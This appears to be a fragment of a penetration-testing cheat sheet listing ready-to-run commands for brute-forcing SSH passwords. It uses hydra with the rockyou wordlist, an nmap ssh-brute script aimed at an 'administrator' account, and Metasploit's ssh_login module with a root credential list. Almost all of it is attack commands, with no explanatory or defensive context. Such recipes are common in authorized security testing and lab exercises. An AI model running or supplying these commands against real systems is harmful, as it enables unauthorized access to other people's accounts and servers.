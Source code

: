 ##### Brute Force
```
hydra -l username -P /usr/share/wordlists/rockyou.txt ssh://IP
```

##### Brute Force 'Administrator' Password using Nmap
```
echo 'administrator' > users
nmap -p22 --script ssh-brute --script-args userdb=/root/users IP
```

##### Brute Force 'root' Password using Msfconsole
```
search ssh_login
use auxiliary/scanner/ssh/ssh_login
options
set rhosts IP
set userpass_file /usr/share/wordlists/metasploit/root_userpass.txt
run
```